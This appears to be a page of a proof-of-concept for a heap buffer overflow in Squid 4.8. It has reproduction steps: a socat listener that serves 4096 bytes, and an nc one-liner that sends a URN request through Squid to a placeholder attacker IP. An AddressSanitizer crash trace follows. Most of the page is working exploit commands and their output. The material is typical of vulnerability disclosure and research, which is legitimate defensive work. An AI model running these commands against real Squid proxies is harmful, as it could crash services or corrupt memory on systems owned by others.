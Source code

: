 
1) Start Squid
```
./sbin/squid --foreground -d 100
```

1) Start a server that will output 4096 bytes
```
$ socat TCP-LISTEN:8080,fork SYSTEM:"python -c \'print\(\\\"A\\\" * 4096)\'"
```

2) Make a URN request to this server
```
$ echo -e "GET urn::@<attacker IP>:8080/ HTTP/1.1\r\n\r\n" |nc <squid hostname> 3128

```

```
=================================================================
==4723==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x621000067958 at pc 0x7f0d8a44deed bp 0x7ffff8eef4b0 sp 0x7ffff8eeec58
WRITE of size 81 at 0x621000067958 thread T0
    #0 0x7f0d8a44deec  (/usr/lib/gcc/x86_64-pc-linux-gnu/9.2.0/libasan.so.5+0x9feec)
    #1 0x563906dc1389 in mem_hdr::copyAvailable(mem_node*, long, unsigned long, char*) const /home/j1/h4x/squid/releases/squid-4.8/src/stmem.cc:202
    #2 0x563906dc1f58 in mem_hdr::copy(StoreIOBuffer const&) const /home/j1/h4x/squid/releases/squid-4.8/src/stmem.cc:262
    #3 0x563906de76d7 in store_client::scheduleMemRead() /home/j1/h4x/squid/releases/squid-4.8/src/store_client.cc:424
    #4 0x563906de6f0c in store_client::scheduleRead() /home/j1/h4x/squid/releases/squid-4.8/src/store_client.cc:391
    #5 0x563906de691f in store_client::doCopy(StoreEntry*) /home/j1/h4x/squid/releases/squid-4.8/src/store_client.cc:352
    #6 0x563906de6082 in storeClientCopy2 /home/j1/h4x/squid/releases/squid-4.8/src/store_client.cc:306
    #7 0x563906de4ac4 in storeClientCopyEvent /home/j1/h4x/squid/releases/squid-4.8/src/store_client.cc:145
    #8 0x563906c3cc8e in EventDialer::dial(AsyncCall&) /home/j1/h4x/squid/releases/squid-4.8/src/event.cc:41
    #9 0x563906c3d7c6 in AsyncCallT<EventDialer>::fire() ../src/base/AsyncCall.h:145
    #10 0x563906fd75cd in AsyncCall::make() /home/j1/h4x/squid/releases/squid-4.8/src/base/AsyncCall.cc:40
    #11 0x563906fd90b5 in AsyncCallQueue::fireNext() /home/j1/h4x/squid/releases/squid-4.8/src/base/AsyncCallQueue.cc:56
    #12 0x563906fd8bfc in AsyncCallQueue::fire() /home/j1/h4x/squid/releases/squid-4.8/src/base/AsyncCallQueue.cc:42
    #13 0x563906c3e8ac in EventLoop::dispatchCalls() /home/j1/h4x/squid/releases/squid-4.8/src/EventLoop.cc:144
    #14 0x563906c3e42e in EventLoop::runOnce() /home/j1/h4x/squid/releases/squid-4.8/src/EventLoop.cc:109
    #15 0x563906c3e052 in EventLoop::run() /home/j1/h4x/squid/releases/squid-4.8/src/EventLoop.cc:83
    #16 0x563906d35a0e in SquidMain(int, char**) /home/j1/h4x/squid/releases/squid-4.8/src/main.cc:1709
    #17 0x563906d34102 in SquidMainSafe /home/j1/h4x/squid/releases/squid-4.8/src/main.cc:1417
    #18 0x563906d3404f in main /home/j1/h4x/squid/releases/squid-4.8/src/main.cc:1405
    #19 0x7f0d89723eaa in __libc_start_main (/lib64/libc.so.6+0x23eaa)
    #20 0x563906ae3b59 in _start (/home/j1/h4x/squid/debug/squid-4.8/sbin/squid+0x484b59)

0x621000067958 is located 0 bytes to the right of 4184-byte region [0x621000066900,0x621000067958)
allocated by thread T0 here:
    #0 0x7f0d8a4c59ae in __interceptor_calloc (/usr/lib/gcc/x86_64-pc-linux-gnu/9.2.0/libasan.so.5+0x1179ae)
    #1 0x563907343217 in xcalloc /home/j1/h4x/squid/releases/squid-4.8/compat/xalloc.cc:83
    #2 0x56390731d954 in MemPoolMalloc::allocate() /home/j1/h4x/squid/releases/squid-4.8/src/mem/PoolMalloc.cc:35
```